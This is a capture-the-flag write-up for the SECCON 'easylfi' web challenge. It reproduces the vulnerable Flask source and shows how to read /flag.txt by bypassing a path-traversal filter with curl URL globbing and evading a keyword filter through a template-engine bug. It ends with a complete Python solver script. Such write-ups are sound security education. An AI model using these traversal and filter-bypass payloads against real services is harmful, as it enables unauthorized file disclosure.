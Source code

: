 ```yaml
---
title: Easylfix
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

This is server-side challenge.

You access the server:

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-01.png)


If you submit `test`, the server redirects to `/hello.html?%7Bname%7D=test:`


![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-02.png)


Source code `(web/app.py` ):


```python
from flask import Flask, request, Response
import subprocess
import os

app = Flask(__name__)


def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text


@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response


@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("

    try:
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
    except subprocess.TimeoutExpired:
        return "Timeout"

    if proc.returncode != 0:
        return "Something wrong..."
    return template(proc.stdout.decode(), request.args)

```

The goal is stealing a flag from `/flag.txt`.

## Solution


### Step 1: path traversal

The server uses curl to read files:


```code
proc = subprocess.run(
    ["curl", f"file://{os.getcwd()}/public/{filename}"],
    capture_output=True,
    timeout=1,
)
```



Unfortunately, path traversal to `/flag.txt` is prevented:

```code
if ".." in filename or "%" in filename:
    return "Do not try path traversal :("
```

By the way, curl has a feature of  [URL globbing](https://everything.curl.dev/cmdline/globbing), and you can access multiple resources at the same time.
You can bypass the above defense using this feature:

```
$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
HTTP/1.1 200 OK
Connection: close
Content-Length: 10
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Nov 2022 12:09:18 GMT
Server: Werkzeug/2.2.2 Python/3.10.8

Try harder

```

However, the following WAF hides the flag response:

```
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response

```

### Step 2: bypassing WAF

The server returns a response after the following process:


```return template(proc.stdout.decode(), request.args)```


The implementation of the template engine is as follows:


```code
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text

```

Is it possible to show the flag string without `SECCON` by abusing this template engine?

The first important point is that `validate("{")` is `True`. You can bypass it with this bug and URL globbing.

Example payload:

   - URL: ```file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}```
   - params:

   ```code
   {
    "{name}": "{",
    "{": "}{",
    "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
}

```

The process in the template engine is as follows.

The initial state:

```
... snip ...
<body>
  <h1>Hello, {name}!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}

```

```"{name}" → "{":```

```
... snip ...
<body>
  <h1>Hello, {!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON{real_flag}

```

`"{" → "}{":`


```
... snip ...
<body>
  <h1>Hello, }{!</h1>
</body>
</html>
--_curl_--file:///app/public/../../flag.txt
SECCON}{real_flag}

```

```"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}" → "":```


```
... snip ...
<body>
  <h1>Hello, }{real_flag}

```

### Solver

```python
import os
import httpx

BASE_URL = f"http://easylfi.seccon.games:3000"

res = httpx.get(
    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
    params={
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
    },
)

print("SECCON" + res.text.split("<h1>Hello, }")[1])

```

## Credit to
* [cjiso1117](https://twitter.com/cjiso1117)

